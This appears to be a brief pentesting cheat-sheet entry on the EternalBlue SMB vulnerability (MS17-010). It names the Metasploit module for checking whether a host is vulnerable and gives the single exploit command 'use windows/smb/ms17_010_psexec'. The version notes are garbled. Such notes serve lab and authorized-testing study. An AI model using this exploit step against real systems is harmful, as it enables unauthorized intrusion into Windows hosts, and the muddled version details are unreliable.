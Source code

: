 
## Eternal Blue `smb_ms17_010`

+ 2008 up to 
+ |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)

check with if host is vulnerable
`Metasploit`, `auxiliary/scanner/smb/smb_ms17_010`.
exploit
```shell-session
use windows/smb/ms17_010_psexec
```

